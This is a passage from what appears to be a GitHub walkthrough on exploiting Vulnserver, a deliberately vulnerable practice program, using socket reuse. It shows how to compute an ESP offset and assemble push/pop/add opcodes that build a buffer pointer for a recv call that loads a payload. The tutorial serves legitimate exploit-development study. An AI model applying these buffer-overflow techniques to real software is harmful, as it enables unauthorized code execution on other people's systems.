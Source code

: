 We have pushed our second argument inside the stack too

## Crafting buffer pointer

From [Rasta's blog](https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/), he had mentioned about two ways to store payload into a buffer and use that buffer pointer

- Calculate an address, push it on to the stack and then retrieve it after recv returns and jmp to that address
- Tell recv to just dump the received data directly ahead of where we are currently executing, allowing for execution to drop straight into it

Here, the second method is more easier and efficient to execute our payload

When we jump to the start of the buffer after ```jmp esp``` and ```long jump``` opcodes, it is already used and served its purpose

We dont need that anymore

What we can do is point our ```buffer pointer``` address in the upcoming address of our current buffer and push it to the stack to load our payload, which will be executed with NOP sled

Lets use this address as our buffer pointer and use it to save buffer data of ```1024 bytes``` from here

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-bp-1.png">
</div>

Calculating the offset between this address and ESP to push the address in stack, because it changes dynamically for each call

```c
>>> 0xeaf9c0 - 0xeaf950
112
>>> hex(112)
'0x70'
```

Generating opcodes to store this address as our buffer pointer agument and push it to stack

```c
nasm > push esp
00000000  54                push esp
nasm > pop eax
00000000  58                pop eax
nasm > add eax,0x70
00000000  83C070            add eax,byte +0x70
nasm > push eax
00000000  50                push eax
```
